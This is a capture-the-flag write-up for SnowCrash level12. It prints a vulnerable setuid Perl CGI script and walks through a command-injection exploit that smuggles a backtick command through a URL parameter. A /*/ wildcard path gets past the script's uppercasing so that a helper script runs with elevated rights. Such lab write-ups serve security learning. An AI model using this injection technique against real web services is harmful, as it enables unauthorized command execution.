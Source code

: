 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```


level12.l uses CGI on localhost:4646, it seems to take 2 arguments. Argument x will be put in uppercase and will be executed thanks to the \`\` quotes. Argument y seems to be useless for our purpose.

We saw in a previous level that we can pass parameters to CGI. So let's try to pass getflag.

Problem: if we pass just getflag, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. Maybe we can run a script instead of a command. 
Using wildcards will prevent the regex to turn /tmp/ into /TMP/ wich doesn't exist.

```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

This does not work, it launch getflag without the appropriate rights...

1h30 later with lot of different useless tries...
It was not the good quotes, and weird to do it like this, it is cleaner to do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

#@ Solution

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.
